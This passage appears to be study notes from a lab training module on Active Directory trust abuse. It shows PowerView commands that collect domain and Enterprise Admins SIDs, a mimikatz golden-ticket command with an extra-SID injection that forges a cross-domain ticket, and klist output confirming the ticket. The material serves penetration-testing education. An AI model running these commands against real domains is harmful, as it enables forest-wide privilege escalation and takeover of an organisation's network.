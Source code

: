 Also get sid with powerview
```powershell-session
PS C:\htb> Get-DomainSID

S-1-5-21-2806153819-209893948-922872689
```

- STEP 2. 
Get Sid of the Enterprise Admins group from the parent domain
use `Get-DomainGroup` from PowerView to obtain the SID for the Enterprise Admins group in the parent domain. 
 `Obtaining Enterprise Admins Group's SID using Get-DomainGroup
```powershell-session
PS C:\htb> Get-DomainGroup -Domain INLANEFREIGHT.LOCAL -Identity "Enterprise Admins" | select distinguishedname,objectsid
```

We could also do this with the [Get-ADGroup](https://docs.microsoft.com/en-us/powershell/module/activedirectory/get-adgroup?view=windowsserver2022-ps) cmdlet with a command such as
```
Get-ADGroup -Identity "Enterprise Admins" -Server "INLANEFREIGHT.LOCAL"`.
```

- STEP3 perform the attack
```powershell-session
mimikatz # kerberos::golden /user:hacker /domain:<child.domain.local> /sid:<child-domain-sid> /krbtgt:9d765b482771505cbe97411065964d5f /sids:<root-domain-entrpriseadmins-sid> /ptt
```

example:
```powershell-session
mimikatz # kerberos::golden /user:hacker /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /krbtgt:9d765b482771505cbe97411065964d5f /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /ptt
```

`Confirming a Kerberos Ticket is in Memory Using klist`
```powershell-session
PS C:\htb> klist

Current LogonId is 0:0xf6462

Cached Tickets: (1)

#0>     Client: hacker @ LOGISTICS.INLANEFREIGHT.LOCAL
        Server: krbtgt/LOGISTICS.INLANEFREIGHT.LOCAL @ LOGISTICS.INLANEFREIGHT.LOCAL
        KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
        Ticket Flags 0x40e00000 -> forwardable renewable initial pre_authent
        Start Time: 3/28/2022 19:59:50 (local)
        End Time:   3/25/2032 19:59:50 (local)
        Renew Time: 3/25/2032 19:59:50 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:
```

